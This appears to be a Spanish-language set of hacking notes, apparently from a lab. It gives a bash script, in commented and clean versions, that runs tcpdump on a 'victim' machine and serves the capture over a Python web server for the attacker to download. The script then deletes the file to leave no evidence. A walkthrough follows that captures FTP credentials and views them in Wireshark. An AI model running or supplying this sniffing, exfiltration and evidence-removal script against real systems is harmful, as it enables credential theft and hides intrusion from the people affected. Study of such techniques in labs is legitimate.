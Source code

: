 
Creamos un ``script`` para interceptar el ``tráfico de la red`` y que lo envíe por un ``servidor web`` a la máquina atacante

Código explicado:

```Bash
#/bin/bash

#Creamos las variables
interfaz="eth0"
paquete="captura.pcap"
puerto_http="80"

#Con tcpdump capturamos el tráfico de la red y lo dejamos en segundo plano
tcpdump -i $interfaz -w $paquete &

#Dejamos un descanso de 5 segundos para evitar errores
sleep 5

#Levantamos un servidor en el puerto 80 y lo dejamos en segundo plano
python3 -m http.server $puerto_http &

#Ponemos una duración de 60 segundos para que sigan interceptando durante ese tiempo
sleep 60

#Creamos una variable para obtener el PID de los procesos que se abren con tcpdump y python
proceso_tcpdump=$(pgrep tcpdump)
proceso_python=$(pgrep python3)

#Paramos los procesos
kill $proceso_tcpdump
kill $proceso_python

echo "La captura se realizó correctamente y se envió el archivo '.pcap' por el servidor web"

#Borramos el archivo para no dejar pruebas en la máquina víctima 
rm $paquete
```

![[Pasted image 20240701104700.png]]

Código limpio:

```Bash
#/bin/bash

interfaz="eth0"
paquete="captura.pcap"
puerto_http="80"

tcpdump -i $interfaz -w $paquete &

sleep 5

python3 -m http.server $puerto_http &

sleep 60

proceso_tcpdump=$(pgrep tcpdump)
proceso_python=$(pgrep python3)

kill $proceso_tcpdump
kill $proceso_python

echo "La captura se realizó correctamente y se envió el archivo '.pcap' por el servidor web"

rm $paquete
```

![[Pasted image 20240701104825.png]]

Le damos permisos:

Le damos permisos:

```Bash
chmod +x snifer.sh
```

![[Pasted image 20240701102654.png]]

Ejecutamos el ``script``:

```Bash
./snifer.sh
```

![[Pasted image 20240701103529.png]]

Iniciamos una sesión de ``FTP``:

```Bash
ftp 10.0.2.50
```

![[Pasted image 20240701103437.png]]

Nos vamos a máquina atacante y nos ``descargamos`` el paquete del ``servidor web``:

![[Pasted image 20240701103928.png]]

Ya terminó el ``script``:

![[Pasted image 20240701104430.png]]

Abrimos el paquete descargador con **wireshark**:

```Bash
wireshark captura.pcap
```

![[Pasted image 20240701103411.png]]

Vemos que ``capturó`` el ``usuario`` y la ``contraseña``:

![[Pasted image 20240701103325.png]]